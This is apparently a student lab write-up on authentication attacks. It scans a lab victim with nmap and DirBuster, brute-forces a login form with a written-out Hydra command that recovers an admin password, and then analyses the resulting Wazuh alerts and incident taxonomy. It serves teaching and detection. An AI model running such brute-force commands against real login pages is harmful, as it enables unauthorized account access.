



<!--
pandoc README.md -o Toni_Peraira_Workshop_03_Authentication.pdf --from markdown --template eisvogel --listings --pdf-engine=xelatex
-->

# Workshop 3 - Authentication

In this practice we will see:

- A way of listing directories and files on a website with ***OWASP Dirbuster*** using a brute force attack.

- Brute force attack on a web form with ***Hydra***.

---

Authentication is the process of verifying the identity of a given user or client. There are three authentication types:

* Something you **know**, such as a password or the answer to a security question.

* Something you **have**, that is, a physical object like a mobile phone.

* Something you **are**, for example, your biometrics or patterns.

Most vulnerabilities in authentication are in one of two ways:

* They fail to protect against brute-force attacks.

* An attacker bypasses the authentication mechanisms. This is referred to as "broken authentication".

**Vulnerabilities in password-based authentication**

* **Status codes**: During a brute-force attack, the returned HTTP status code will be
the same for the wrong ones. If it returns a different status code, this is a strong
indication that the username was correct.

* **Error messages**: Sometimes the returned error message is different depending
on whether both the username AND password are incorrect or only the password
was incorrect.

* **Response times**: A website might only check whether the password is correct if
the username is valid. This extra step might cause a slight increase in the
response time.

---

Machines:

* Victim: 192.168.1.41

  This machine has the Wazuh agent sending alerts to the manager.

* Wazuh manager: 192.168.1.80

* Attacker: 192.168.1.224

```
└──╼ $ifconfig
wlp14s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.224  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::e5fc:8a3:a361:84b9  prefixlen 64  scopeid 0x20<link>
        ether 2c:d0:5a:11:92:c2  txqueuelen 1000  (Ethernet)
        RX packets 1149072  bytes 639208913 (609.5 MiB)
        RX errors 0  dropped 108  overruns 0  frame 0
        TX packets 1003188  bytes 265200301 (252.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

---

Attack:

Investigate which ports the victim has open:

```
nmap -sV -sT -O -A -p- 192.168.1.41
```

```
└──╼ $ping 192.168.1.41
PING 192.168.1.41 (192.168.1.41) 56(84) bytes of data.
64 bytes from 192.168.1.41: icmp_seq=1 ttl=64 time=4.92 ms
64 bytes from 192.168.1.41: icmp_seq=2 ttl=64 time=4.63 ms
64 bytes from 192.168.1.41: icmp_seq=3 ttl=64 time=5.00 ms
64 bytes from 192.168.1.41: icmp_seq=4 ttl=64 time=6.91 ms
64 bytes from 192.168.1.41: icmp_seq=5 ttl=64 time=5.74 ms
64 bytes from 192.168.1.41: icmp_seq=6 ttl=64 time=4.77 ms
64 bytes from 192.168.1.41: icmp_seq=7 ttl=64 time=5.55 ms
```


We will open *OWASP Dirbuster 1.0-RC1 - Web Application Brute Forcing* in order to scan web directories. We need the target URL *http://192.168.1.41/* and a wordlist with a list of directories, the chosen wordlist is */usr/share/dirbuster/wordlists/directory-list-1.0.txt*.


The scan information contains a directory structure found with an interesting *login.php*. 


We try to enter this login page:

http://192.168.1.41/login.php



It seems that we have a login page and maybe we will be able to explode it.

We will execute the login submit and get the request info to see what is sent. We can use the request info to automate a brute force attack with **Hydra**.



Request headers:

```
Host: 192.168.1.41
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://192.168.1.41
DNT: 1
Connection: keep-alive
Referer: http://192.168.1.41/
Upgrade-Insecure-Requests: 1
```

Request body:

```
username=toni&password=toni
```

Let's use the Hydra software:

```
└──╼ $hydra -l admin -P /usr/share/wordlists/dirb/others/best1050.txt 192.168.1.41 http-post-form "/login.php:username=^USER^&password=^PASS^:invalid"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 17:26:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1049 login tries (l:1/p:1049), ~66 tries per task
[DATA] attacking http-post-form://192.168.1.41:80/login.php:username=^USER^&password=^PASS^:invalid
[80][http-post-form] host: 192.168.1.41   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-22 17:27:06
```

We have used the */usr/share/wordlists/dirb/others/best1050.txt* wordlist to attack the login form, changing the user and password with brute force.

It has been very easy and we got 1 valid password:

```
login: admin   
password: happy
```

---

This attack generates an alert to the Wazuh manager for each failed attempt.

* Show this alert with a screenshot.




```
{
  "agent": {
    "ip": "192.168.1.41",
    "name": "dc-4",
    "id": "003"
  },
  "data": {
    "protocol": "HEAD",
    "srcip": "192.168.1.224",
    "id": "404",
    "url": "//images/alumni.php"
  },
  "rule": {
    "firedtimes": 46458,
    "mail": false,
    "level": 10,
    "pci_dss": [
      "6.5",
      "11.4"
    ],
    "tsc": [
      "CC6.6",
      "CC7.1",
      "CC8.1",
      "CC6.1",
      "CC6.8",
      "CC7.2",
      "CC7.3"
    ],
    "description": "Multiple web server 400 error codes from same source ip.",
    "groups": [
      "web",
      "accesslog",
      "web_scan",
      "recon"
    ],
    "id": "31151",
    "nist_800_53": [
      "SA.11",
      "SI.4"
    ],
    "frequency": 14,
    "gdpr": [
      "IV_35.7.d"
    ]
  },
  "full_log": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images/alumni.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "id": "1647966658.533929400",
  "timestamp": "2022-03-22T16:30:58.779+0000",
  "previous_output": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD /css//pepys.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //////images/209651/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/collapse_of_ussr/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/bdeath/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/commandingheights/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/minitextlo/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/inside_money/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/fleas/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/archer/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD ///images///5701.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images//////seven_wonders/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "manager": {
    "name": "wazuh"
  },
  "decoder": {
    "name": "web-accesslog"
  },
  "input": {
    "type": "log"
  },
  "@timestamp": "2022-03-22T16:30:58.779Z",
  "location": "/var/log/nginx/access.log",
  "_id": "zm13sn8BzZwxFN02oRTG"
}
```

* Name the taxonomy of this incident and give a brief explanation.

(https://github.com/enisaeu/Reference-Security-Incident-Taxonomy-Task-Force/blob/master/working_copy/humanv1.md)

**Intrusion Attempts | Login Attempts**

Multiple brute-force login attempts (including guessing or cracking of passwords). This IOC refers to a resource, which has been observed to perform brute-force attacks over a given application protocol.

* In which log file of the victim machine was the alert sent to Wazuh recorded?

```
/var/log/nginx/access.log
```

* What is the alert message that allows us to identify the incident?

```
192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] "HEAD //images/alumni.php HTTP/1.1" 404 0 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)" "-"
```